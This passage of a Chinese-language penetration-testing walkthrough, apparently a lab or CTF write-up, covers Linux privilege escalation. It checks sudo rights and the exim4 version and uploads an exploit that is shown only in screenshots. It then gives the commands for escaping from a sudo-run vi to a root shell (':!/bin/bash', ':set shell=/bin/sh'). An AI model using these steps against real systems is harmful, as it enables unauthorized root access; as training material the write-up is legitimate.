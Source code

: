 sudo -l 用之前的密码试了不对，发现 exim4；

查看 exim4 当前版本号

```
/usr/sbin/exim4 —version
```

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR39nqPqTZUdeFh0uiblOwBlaibMSeY1Qricf4W56Hy0uibYL5FKeqicAhXwZy870LpQ6ibaoKVkGHZd3SJnw/640?wx_fmt=jpeg)

或者 dpkg -l | grep exim 查看包安装情况

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR39nqPqTZUdeFh0uiblOwBlaibd97jTic9UNNVZKv2wJdljWKG01VPx8rfCXeA1eicmEic8ffibGQiahFQbtA/640?wx_fmt=jpeg)

查找漏洞；

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR39nqPqTZUdeFh0uiblOwBlaibyWP4kbyVEsLvIIqfjicLC7h9a2RofcXFgzVaVibFQUssn0Pm2tuc9nEw/640?wx_fmt=jpeg)

用法介绍；

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR39nqPqTZUdeFh0uiblOwBlaibdPvp340JySzYKSN4fttbMuxxJYADpYx6ib6uthIdjo5l9iaIk6DUVf1A/640?wx_fmt=jpeg)

上传脚本；执行后成功；

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR39nqPqTZUdeFh0uiblOwBlaib0oibFLMJKNAOZSf0h0ycRfH4yhBv2u36nfJH8MRpOT6gOWSPF6jFysg/640?wx_fmt=jpeg)

vi 提权
-----

vi 命令分配了 root 权限

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR39nqPqTZUdeFh0uiblOwBlaib8nulUBhEp2hUmAb2LOfvdLTouGeD34DVnjJPzJWTicxynZEt5yqHdEA/640?wx_fmt=jpeg)

运行 sudo -l 发现该用户可以任意用户执行 vi，按 esc 后输入:!/bin/bash 直接提权至 root。

```
sudo /usr/bin/vi /tmp/jin
```

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR39nqPqTZUdeFh0uiblOwBlaibIRQAHwia7OEtAs4HCMj8kyvEOrJiaRWa8uZ8Y0zbfkutePzbWwVqPo5A/640?wx_fmt=jpeg)

esc 退出，然后输入 :!/bin/bash ；

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR39nqPqTZUdeFh0uiblOwBlaibictMs3PHFtDNTX43YDEzmMXHDAK8P8ZwfdZo6K3XTut4PEztZH7YiaSA/640?wx_fmt=jpeg)

或者还可以；

```
sudo /usr/bin/vi /tmp/jin
```

:set shell=/bin/sh 回车

:shell 回车

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR39nqPqTZUdeFh0uiblOwBlaibuORr0eaIUT15Wxic6bxSF5N41zytGsYzWFibD0BhC7eesicAanFH3C9EQ/640?wx_fmt=jpeg)

python 沙箱逃逸
-----------
